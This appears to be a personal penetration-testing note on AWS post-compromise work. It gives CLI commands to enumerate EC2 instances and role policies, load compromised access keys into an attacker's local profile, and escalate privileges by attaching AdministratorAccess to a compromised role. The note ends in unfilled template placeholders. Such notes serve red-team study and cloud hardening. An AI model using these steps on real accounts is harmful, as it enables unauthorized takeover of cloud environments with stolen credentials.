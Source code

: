 

#### 🚀 - Enumeration and a particular attack: Role assignment
---
-List instances in an organization account:
`aws ec2 describe-instances --profile [profile name]`
OR
`aws ec2 describe-instances --profile [profile name] --zone [specify the zone]` 

Check for what are the services attached, any public IPs. Check for any web vulnerabilities or exposed ports that could be compromised to obtain information about the instance.

Check [[AWS Exploitation of SSRF or RCE]] to get further information about a vulnerable instance.

-Any new compromised credentials re-configure them in your local attacker machine with the `aws configure` commands:

```
aws configure set aws_access_key_id [key-id] --profile ec2
aws configure set aws_secret_access_key [key-id] --profile ec2
aws configure set aws_session_token [token] --profile ec2
```

Re-enumerate any new users identified and configured.

-List attached managed policies to an instance's role:
`aws iam list-attached-role-policies --role-name [role name] --profile [profile name]`

-List attached inline policies to an instance's role:
`aws iam list-role-policies --role-name jump-ec2-role --profile [profile name]`

-List permissions of a policy attached to an instance's role:
`aws iam get-role-policy --role-name [role name] --policy-name [policy name] --profile [profile name]`

Make sure you read and understand the permissions in the policies. Some will allow you to attach other policies to your role, or user, or group, these sort of permissions allow privilege escalation much easier.

-Attach a policy to a role:
`aws iam attach-role-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --role-name [current role you are at] --profile [profile name]`

In this attack, we checked the role policy permissions and it allowed to assign any other policies to the role. You can try adding then an Admin policy and attempt further exploitaiton.

---
#### 📦 - B
--- 

#### 🖊️ - C


⚠ Alert 1
⚠ Alert 2
⚠ Alert 3


--- 

 1️⃣ A
 2️⃣ B
 
--- 

❗C


### Properties
---
📆 created   {{15-12-2024}} 15:15
🏷️ tags: #cloud #aws 

---
